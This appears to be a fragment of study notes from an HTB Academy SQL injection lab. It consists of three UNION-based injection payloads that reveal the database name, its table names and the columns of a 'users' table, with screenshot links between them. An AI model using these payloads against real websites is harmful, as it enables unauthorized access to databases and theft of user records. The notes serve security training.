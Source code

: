 cn' UNION select 1,database(),2,3-- -


![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-33.png)


cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-34.png)

cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
